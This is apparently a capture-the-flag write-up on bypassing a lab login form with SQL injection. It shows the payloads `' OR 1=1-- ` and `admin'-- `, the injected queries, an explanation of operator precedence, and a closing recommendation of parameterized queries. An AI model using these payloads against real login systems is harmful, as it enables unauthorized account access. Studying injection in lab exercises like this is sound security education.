


# Authentication Bypass

**Challenge:** *Access is gated by a login form backed by a relational database. Something in the query logic can be manipulated.*



The schema reference gave two tables:

```sql
accounts    (id, username, password)
privileges  (account_id, access_tier)
```

Known accounts were `charlie` and `diana` with `guest` tier, plus a `???` account with `root` — the target.

## Recon

The login form echoed the SQL query built from user input. Testing with `.` in both fields:

```sql
SELECT a.id, a.username, p.access_tier
FROM accounts a
LEFT JOIN privileges p ON p.account_id = a.id
WHERE a.username='.' AND a.password='.'
```

Direct string interpolation, no sanitization. Textbook injection setup.

Typing `'` alone in the username field triggered a SQL syntax error → confirmed unescaped input.

Tried `#` as a comment first: `SQL error: unrecognized token: "#"`. So not MySQL — likely SQLite. Comment syntax to use: `-- ` (with the trailing space).

## Exploit

Two payloads work.

### Method 1 — inject in the username field

Payload: `' OR 1=1-- `

Resulting query:

```sql
WHERE a.username='' OR 1=1--' AND a.password=''
```

The `--` comments out everything after it, including the password check. `'' OR 1=1` is true for every row, so the query returns all rows joined against `privileges`. The app displayed the first one: `admin | root`.



### Method 2 — inject in the password field

Payload: `' OR 1=1-- ` (with `admin` or anything in the username field)

Resulting query:

```sql
WHERE a.username='admin' AND a.password='' OR 1=1--'
```

Operator precedence matters here — **AND binds tighter than OR** — so SQL groups this as:

```sql
WHERE (a.username='admin' AND a.password='') OR 1=1
```

Left side is false, right side always true → all rows returned, `admin` shown first.

The `???` account turned out to be `admin`.

## Flag

```
IIK3100{SQL_1nj3ct10n_Byp4ss_L0g1c}
```

## Takeaway

Any `WHERE` clause built by string interpolation can usually be bypassed with `' OR 1=1-- ` in any user-controlled field. Two things to keep in mind:

- **Comment syntax varies by DB** — `--` for most (Postgres, SQLite, MSSQL), `#` for MySQL. Test both if unsure.
- **Operator precedence** — injecting in the password field bypasses via `OR 1=1` returning *every* row, not by matching admin specifically. To target one user, inject `admin'-- ` in the username field instead (closes the string, comments out the password check, matches only the admin row).

The fix is parameterized queries — never build SQL by concatenating user input into strings.
